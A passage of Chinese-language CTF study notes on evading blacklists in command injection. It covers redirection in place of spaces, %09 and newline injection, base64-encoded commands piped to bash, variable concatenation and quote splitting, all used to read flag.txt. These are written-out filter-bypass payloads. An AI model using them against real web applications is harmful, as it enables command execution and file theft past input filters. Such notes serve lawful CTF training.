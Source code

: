 - **重定向符绕过(<>)**

```PHP
cat<>flag.txt
cat<flag.txt
```

- **%09(需要****php****环境)**

php环境下web输入%09等效于空格

```PHP
cat%09flag.txt
```

- **`%0a`****换行符**

#### 编码绕过

#### Base64

```PHP
echo xxxx|base64 -d|bash
```

使用反引号包含base64解码后的命令

```PHP
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d
```

将base64解码后的命令通过管道符传递给bash

```PHP
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d | bash
```

#### 变量拼接

使用shell变量拼接被黑名单限制的关键词

```PHP
a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
```

#### 单双引号

- 单引号----`''`
- 双引号---`""`
- 反斜杠--- `\`

我们可以通过`ca''t ca""t c"a"t ca\t`这样来bypass

## 文件包含

...

### 示范-WP

#### 第一题
